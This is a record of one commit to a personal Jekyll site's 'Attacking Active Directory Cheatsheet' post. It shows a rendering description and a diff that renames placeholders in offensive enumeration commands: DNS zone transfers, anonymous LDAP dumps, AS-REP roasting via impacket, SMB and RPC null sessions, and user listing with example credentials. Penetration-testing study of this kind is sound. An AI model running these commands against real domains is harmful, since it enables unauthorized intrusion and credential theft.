

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 1394 px. Shown: the top 1391 px of the window, without its empty margins (228-1025 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -6,17 +6,16 @@
 image:  '/images/10000.jpg'
 tags:   [Cheatsheets, Tools, Active-Directory, Active-Directory-Enumeration, SMB, Kerberoasting, AS-REP-Roasting, DCSync, Silver-Ticket, ACLs, MSSQL, Credential-Dumping, Credential-Hunting]
 ---
-
 ### Uncredentialed Enumeration and Attacks
 ```shell
 # DNS Zone Transfer
-dig @172.16.150.10 AXFR website.com
+dig @172.16.150.10 AXFR vorkharium.com
 
 # LDAP Anonymous Session Dump
-ldapsearch -x -H ldap://172.16.150.10 -b "dc=website,dc=com"
+ldapsearch -x -H ldap://172.16.150.10 -b "dc=vorkharium,dc=com"
 
 # No-PreAuth Kerberos without Username
-impacket-GetNPUsers website.com/ -dc-ip 172.16.150.10
+impacket-GetNPUsers vorkharium.com/ -dc-ip 172.16.150.10
 
 # SMB Null Session with smbclient
 smbclient -L 172.16.150.10 -N
@@ -29,7 +28,7 @@
 smbmap -H 172.16.150.10 -P 445
 nxc smb 172.16.150.10 --shares -u 'guest' -p ''
 crackmapexec smb 172.16.150.10 -u '' -p '' --shares
-impacket-smbclient website.com/'':''@172.16.150.10
+impacket-smbclient vorkharium.com/'':''@172.16.150.10
 
 # RPC Null Session
 rpcclient 172.16.150.10 -N
@@ -40,10 +39,10 @@
 querydispinfo
 enumdomusers
 enumdomgroups
-queryuser <username>
+queryuser johnwick
 
 # impacket-rpcdump
-impacket-rpcdump -port 135 website.com/'':''@172.16.150.10
+impacket-rpcdump -port 135 vorkharium.com/'':''@172.16.150.10
 
 # enum4linux
 enum4linux -U 172.16.150.10
@@ -52,26 +51,30 @@
 ### Domain Password Policy Enumeration
 ```shell
 # NetExec and CrackMapExec
-nxc smb 172.16.150.10 -u 'user' -p 'password' --pass-pol
-crackmapexec smb 172.16.150.10 -u 'user' -p 'password' --pass-pol
+nxc smb 172.16.150.10 -u 'vorkharium' -p 'password' --pass-pol
+crackmapexec smb 172.16.150.10 -u 'vorkharium' -p 'password' --pass-pol
 
 # enum4linux
 enum4linux -U 172.16.150.10 # Without credentials
-enum4linux -u administrator -p password -U 172.16.150.10
+enum4linux -u vorkharium -p password -U 172.16.150.10
 
-# In CMD
+# From CMD CLI
 net accounts
-net user john /domain
+net user vorkharium /domain
 
-# In PowerShell
+# From PowerShell CLI
 net accounts
 Get-ADDefaultDomainPasswordPolicy
 (Get-ADDomain).DefaultPasswordPolicy
 Get-WmiObject -Class Win32_NetworkLoginProfile | Select-Object -Property Name, PasswordExpirationDate
-
 ```
 ### Domain Users Enumeration
 ```shell
+# With impacket-GetADUsers
+impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/johnwick:'Password123!'
+
+# My custom way of creating a list of domain_users.txt list with one command
+impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/johnwick:'Password123!' | awk 'NR>3 {print $1}' >> domain_users.txt
 
 ```
 ### Groups Enumeration
````
